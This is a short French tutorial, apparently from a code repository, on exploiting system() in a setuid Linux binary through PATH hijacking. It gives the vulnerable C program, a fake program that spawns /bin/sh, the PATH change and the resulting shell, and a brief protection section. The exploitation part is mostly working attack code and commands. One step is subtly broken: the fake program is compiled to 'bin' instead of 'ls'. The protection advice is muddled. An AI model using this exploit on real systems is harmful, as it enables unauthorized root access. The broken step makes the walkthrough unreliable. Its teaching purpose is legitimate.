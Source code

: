 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif


```{r, engine='bash'}
aas@ubuntu:~$ cat vuln.c
void main()
{
  system("ls -l");
}
```

Le comportement normal de ce programme est le suivant. Notons le suid activé.


```{r, engine='bash'}
aas@ubuntu:~$ ./vuln
total 48
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
-rws--x--x 1 root root 8600 sept. 16 10:07 vuln
-rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
```

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
```{r, engine='bash'}
aas@ubuntu:~$ cat exploit.c 
void main()
{
  char *shell[] = {"/bin/sh",NULL};
  execve(shell[0],shell,NULL);
}
aas@ubuntu:~$ gcc exploit.c -o bin
```


### Modification de $PATH

```{r, engine='bash'}
aas@ubuntu:~$ PATH=.:$PATH
```

### Execution
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln 
$
```
    
## IV. Protection
Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens" noyaux.
On utilise les fonctions type execve à la place de System (voir exploit.c)

